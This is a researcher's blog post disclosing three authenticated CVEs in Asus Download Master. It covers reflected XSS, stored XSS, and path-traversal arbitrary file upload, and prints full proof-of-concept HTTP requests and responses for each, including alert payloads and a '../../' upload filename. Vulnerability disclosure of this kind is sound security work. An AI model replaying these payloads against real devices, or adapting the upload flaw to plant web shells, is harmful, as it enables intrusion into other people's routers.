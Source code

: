 ```yaml
---
title: "Asus Download Master - Part 1: XSS, Uploads"
date: 2024-04-16T17:26:23Z
draft: true
tags: ["notes research cve asus"]
---
```


## Asus, the gift that keeps on giving (cves)

something something a cve horse in the mouth

Remember back in the early 2000s, when download managers were all the rage? Well, turns out in 2024 Asus *still* has a product, aptly named "Download Master". This "app" installs to a USB device on your router. As it turns out, it's actually a full on linux environment running `busybox`... that's installed onto your USB stick, lol. 

DM, as I'll refer to it henceforth, was *riddled* with issues-- classic low-hanging bugs that you don't expect to see outside of a CTF. Since this isn't natively on the routers it's not as big a deal, and Shodan reports only around ~2.9k devices worldwide, and Censys about the same:

![alt text](images/shodan-dm.png)

In my cursory prodding, I came across the following bug types, note that they are ALL authenticated:

1. Reflected XSS
2. Stored XSS
3. Arbitrary File Uploads / Path Traversal
4. Command Injections
5. Buffer Overflows

For this post I'll review 1 - 3, and a part two will contain the fun ones.

## Reflected XSS - CVE-2024-31159

Endpoint: `/check.asp`

The `directurl` POST body parameter is not sanitized prior to being reflected within application responses, resulting in the ability to perform cross-site scripting attacks.

Payload: `"-alert("XSS")-"`

**Request:**
```html
POST /check.asp HTTP/1.1
Host: 192.168.1.2:8081
Content-Length: 128
Origin: http://192.168.1.2:8081
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.2:8081/check.asp
Cookie: hwaddr=3C:7C:3F:53:C1:00; apps_last=downloadmaster; clickedItem_tab=0; asus_token=ERc5RMR5mV5iDo6sZjtHhvTdfjuVMyo
Connection: close

flag=&login_username=[REDACTED]&login_passwd=[REDACTED]&foilautofill=&directurl=%2Fdownloadmaster%2Ftask.asp"-alert("XSS")-"
```

**Response:**
```html
HTTP/1.1 200 OK
Set-Cookie: AuthByPasswd=asus_app_token:9ecafe2c4909d1b93bfa474fe119512f; path=/downloadmaster/; httponly;
Cache-Control: no-store
Cache-Control: no-cache
Content-Type: text/html
Content-Length: 886
Connection: close
Date: Thu, 27 Jul 2023 22:58:34 GMT
Server: lighttpd/1.4.39

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<html xmlns:v>
<head>
<meta http-equiv="X-UA-Compatible" content="IE=EmulateIE8" />
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<meta http-equiv="Expires" content="-1" />
<meta HTTP-EQUIV="Cache-Control" CONTENT="no-cache">
<meta http-equiv="Pragma" content="no-cache" />
<title>Login Jump</title>
<script type="text/javascript" src="jquery.js"></script>
</head>
<body>
<script>
var httpTag 		= 'https:' == document.location.protocol ? false : true;
var directurl_host 	= document.location.host;
var url 			="/downloadmaster/task.asp"-alert("XSS")-"";
if(httpTag)
self.location = "http://" +directurl_host	+ url;
else
self.location = "https://" +directurl_host	+ url;
</script>
</body>
</html>
```

**Screenshot:**
![alt text](images/reflected-xss.png)

## Stored XSS - CVE-2024-31160

Endpoint: `/downloadmaster/dm_apply.cgi`

The `usb_dm_url` URL parameter is not sanitized prior to it being stored as a download task. This value is the reflected within the `/downloadmaster/task.asp` page unsafely, resulting in the ability to perform stored-cross site scripting attacks.

**Request:**
```html
GET /downloadmaster/dm_apply.cgi?action_mode=DM_ADD&download_type=5&again=no&usb_dm_url=%3cscript%3ealert('stored-xss')%3c/script%3e HTTP/1.1
Host: 192.168.1.2:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Referer: http://192.168.1.2:8081/downloadmaster/task.asp
Cookie: AuthByPasswd=asus_app_token:687b0a83a016a94f8a06ba793349d613; 
```

**Response:**
```html
HTTP/1.1 200 OK
ContentType: text/html
Cache-Control: private,max-age=0;
Connection: close
Date: Thu, 27 Jul 2023 23:09:48 GMT
Server: lighttpd/1.4.39
Content-Length: 10

ACK_SUCESS
```

A request to `dm_print_status.cgi` (sent as part of loading `task.asp`) returns the stored xss:

**Request:**
```
GET /downloadmaster/dm_print_status.cgi?action_mode=All HTTP/1.1
Host: 192.168.1.2:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Cookie: AuthByPasswd=asus_app_token:687b0a83a016a94f8a06ba793349d613;
```

**Response:**
```
HTTP/1.1 200 OK
ContentType: text/html
Cache-Control: private,max-age=0;
Date: Thu, 27 Jul 2023 23:13:37 GMT
Server: lighttpd/1.4.39
Content-Length: 113

["1","<script>alert('stored-xss')</script>","0.0","","notbegin","OTHER","","0 KBps","0 KBps","0","","0.0000",""]

```

Screenshot:
![alt text](images/stored-xss.png)

## Arbitrary Uploads / Path Traversal - CVE-2024-31161

Endpoint: `/downloadmaster/dm_uploadbt.cgi`

It is possible to upload arbitrary files to arbitrary locations by manipulating parameter values in file uploads sent to the `dm_uploadbt.cgi` endpoint. It is possible to include path traversal characters within the `filename` parameter of POST requests made to this endpoint and cause the file being uploaded to be stored anywhere, overwriting existing files.

Additionally, no restrictions on file contents were observed, making it possible to upload arbitrary files such as malware or web shells.

**Request:**
```html
POST /downloadmaster/dm_uploadbt.cgi HTTP/1.1
Host: 192.168.1.2:8081
Content-Length: 273
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBfjAbnA3mHUXAZ6q
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Cookie: AuthByPasswd=asus_app_token:abf4c1e97f3ad73ff53c25399b8f8c42;

------WebKitFormBoundaryBfjAbnA3mHUXAZ6q
Content-Disposition: form-data; name="filename"; filename="../../asusware.arm/etc/downloadmaster/downloadmaster/test.asp"
Content-Type: application/x-bittorrent

hello from n0rthw4rd
------WebKitFormBoundaryBfjAbnA3mHUXAZ6q--
```

**Response:**
```html
HTTP/1.1 200 OK
ContentType: text/html
Cache-Control: private,max-age=0;
Date: Tue, 25 Jul 2023 14:44:35 GMT
Server: lighttpd/1.4.39
Content-Length: 73

<script>parent.hideLoading();parent.response_dm_add("ACK_FAIL");</script>
```

Although the application's response indicates the request was not successful, navigating to the `/downloadmaster/test.asp` URI returns the uploaded file. This can be additionally validated by connecting to the device via SSH and validating the file's presence.

![alt text](images/arb-uploads.png)